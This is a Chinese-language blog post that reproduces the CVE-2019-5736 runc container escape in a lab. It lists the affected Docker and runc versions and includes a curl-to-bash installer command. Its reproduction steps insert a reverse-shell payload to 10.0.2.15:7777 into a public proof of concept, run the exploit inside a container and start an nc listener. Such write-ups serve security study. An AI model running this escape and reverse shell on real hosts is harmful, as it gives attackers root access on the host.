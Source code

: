 ```yaml
---
title: CVE-2019-5736容器逃逸漏洞复现
date: 2022-08-15 20:14:52
slug: docker-cve-2019-5736
tags:
  - Docker
  - Security
categories:
  - Security
  - Container

---
```



## 一、漏洞概述

`CVE-2019-5736`漏洞是指通过从容器内覆盖并执行主机系统 runc 二进制文件，从而获取主机上的root执行权限。


## 二、影响版本

OS: Ubuntu 16.04

Docker: 18.06.0-ce ( docker version < 18.09.02 )

Docker Runc: 1.0.0-rc5 ( runc version < 1.0-rc6 )

![image-20230808140825632](imgs/20230808140825632.png)

## 三、漏洞复现

```bash
# 安装 Docker 
curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh
```

```bash
# 卸载 Docker
# Step1, 删除docker及安装时自动安装的所有包
sudo apt-get autoremove docker docker-ce docker-engine  docker.io  containerd runc

# Step2, 查看docker是否卸载干净
sudo dpkg -l | grep docker
sudo dpkg -l |grep ^rc|awk '{print $2}' |sudo xargs dpkg -P # 删除无用的相关的配置文件

# Step3, 删除没有删除的相关插件
sudo apt-get autoremove docker-ce-*
```

```bash
# 下载POC https://github.com/Frichetten/CVE-2019-5736-PoC

# 加入反弹shell的命令
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.0.2.15/7777 0>&1" + shellCmd

# 编译POC
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go

# 将POC编译好的文件Copy到容器
sudo docker cp main <容器ID>:/home
docker exec -it <容器ID> bash
cd /home/
chmod 777 main
./main
```

![image-20230808134827089](imgs/20230808134827089.png)

```bash
# 启动NC监听目标端口(7777)
nc -lnvp 7777
```


![image-20230808135227522](imgs/20230808135227522.png)

![image-20230808135046294](imgs/20230808135046294.png)


## 参考

- https://cloud.tencent.com/developer/article/1668009
- https://blog.51cto.com/u_16179749/6633750
- https://github.com/Frichetten/CVE-2019-5736-PoC
- https://www.freebuf.com/articles/web/258398.html
- https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/